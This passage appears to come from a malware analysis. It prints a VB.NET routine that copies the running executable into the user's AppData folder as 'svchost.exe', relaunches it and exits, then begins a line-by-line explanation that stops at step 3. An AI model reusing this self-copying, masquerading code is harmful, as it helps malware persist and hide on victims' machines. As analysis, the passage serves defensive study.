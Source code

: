 ```
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyRoaming(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2)
			processStartInfo.WorkingDirectory = text
			If New Process() With { .StartInfo = processStartInfo }.Start() Then
				Environment.[Exit](1)
				Return
			End If
		Else
			Try
				File.Delete(text2)
				Thread.Sleep(200)
				File.Copy(friendlyName, text2)
			Catch
			End Try
			Dim processStartInfo2 As ProcessStartInfo = New ProcessStartInfo(text2)
			processStartInfo2.WorkingDirectory = text
			If New Process() With { .StartInfo = processStartInfo2 }.Start() Then
				Environment.[Exit](1)
			End If
		End If
	End If
End Sub
```


This code defines a private shared subroutine named `copyRoaming`. Its purpose is to copy the current executable to a specific location and potentially start a new process from that location :

1.  **Obtaining the Name and Location of the Current Assembly**:
    
    -   `Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName` gets the name of the currently running application.
    -   `Dim location As String = Assembly.GetExecutingAssembly().Location` gets the path of the current executable.
2.  **Path Definitions**:
    
    -   The user's startup path is constructed but not used: `Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName`.
    -   `Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"` sets the path to the user's Application Data folder.
    -   `Dim text2 As String = text + processName` creates a full path for a potential copy of the executable.
3.  **Checking and Copying the Executable**:
    